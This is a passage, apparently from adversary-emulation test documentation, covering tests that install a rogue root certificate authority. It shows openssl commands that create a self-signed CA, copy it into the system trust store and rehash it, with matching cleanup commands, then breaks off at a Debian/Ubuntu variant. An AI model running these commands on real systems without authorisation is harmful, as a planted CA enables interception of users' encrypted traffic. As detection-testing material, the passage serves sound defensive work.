 


#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| cert_filename | Path of the CA certificate we create | path | rootCA.crt|
| key_filename | Key we create that is used to create the CA certificate | path | rootCA.key|


#### Attack Commands: Run with `sh`!  Elevation Required (e.g. root or admin) 


```sh
openssl genrsa -out #{key_filename} 4096
openssl req -x509 -new -nodes -key #{key_filename} -sha256 -days 365 -subj "/C=US/ST=Denial/L=Springfield/O=Dis/CN=www.example.com" -out #{cert_filename}
cp #{cert_filename} /usr/local/share/certs/
certctl rehash
```

#### Cleanup Commands:
```sh
rm /usr/local/share/certs/#{cert_filename}
certctl rehash
```





<br/>
<br/>

## Atomic Test #3 - Install root CA on Debian/Ubuntu
Creates a root CA with openssl

**Supported Platforms:** Linux


**auto_generated_guid:** 53bcf8a0-1549-4b85-b919-010c56d724ff





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| cert_filename | CA file name | path | rootCA.crt|
| key_filename | Key we create that is used to create the CA certificate | path | rootCA.key|


#### Attack Commands: Run with `sh`!  Elevation Required (e.g. root or admin) 

